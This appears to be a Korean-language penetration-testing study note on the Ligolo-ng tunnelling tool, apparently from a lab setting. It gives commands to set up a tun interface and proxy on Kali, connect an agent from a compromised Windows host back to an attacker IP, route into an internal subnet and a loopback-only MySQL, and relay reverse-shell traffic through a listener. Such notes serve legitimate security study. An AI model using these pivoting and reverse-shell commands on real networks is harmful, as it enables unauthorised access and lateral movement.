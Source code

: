 리골로는 쉽게 작동하지만, 무거운 작업을 수행할 수 있다.
(다운로드 링크: [https://github.com/nicocha30/ligolo-ng/releases/](https://github.com/nicocha30/ligolo-ng/releases/))

**참고 링크:Medium**
[**Ligolo-ng — Pivoting, Reverse Shells and File Transfers**](https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5)

**새 인터페이스 추가 및 활성(kali)**
```powershell
# 머신에 새로운 tun 인터페이스를 추가합니다.
 sudo ip tuntap add user kali mode tun ligolo 

# 새로운 인터페이스를 활성화합니다.
 sudo ip link  set ligolo up
```

**프록시 실행 (kali)**
```powershell
# -selfcert 플래그를 사용하면 도구가 동적으로 
자체 서명된 인증서를 생성합니다.

 ./proxy -selfcert
```

**agent로 proxy에 붙기 (win)**
```powershell
# IP는 Kali VM/공격 머신의 IP가 됩니다. 
# -ignore-cert는 인증서 검증을 무시합니다. 
# 즉, 자체 서명 인증서에는 문제가 없습니다.

 ./agent -connect 10.10.14.213:11601 -ignore-cert
```

**ip 라우팅 테이블 추가 (kali)**
```bash
# 내부망의 경우
sudo ip route add 172.16.5.0/24 dev ligolo
# 루프백만 접속 가능한 mysql 에 접속할 경우
sudo ip route add 240.0.0.1/32 dev ligolo
```

**start로 터널링 시작 (kali)**
```jsx
ligolo-ng » **session**
? Specify a session : 1 - Unknown@WEB02 - 192.168.159.121:59212 - 6f4d49a2-84fb-4bbf-9912-8e3615d3668b
[Agent : Unknown@WEB02] » start
INFO[2613] Starting tunnel to Unknown@WEB02 (6f4d49a2-84fb-4bbf-9912-8e3615d3668b)
```

**역방향 쉘 라우팅 예시 (kali)**
```powershell
# 에이전트를 포트 1234에서 실행 중인 머신에 리스너를 생성 
하고 트래픽을 머신의 포트 4444로 리디렉션합니다. 
# 물론 다른 포트를 사용할 수도 있습니다.

 listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444
```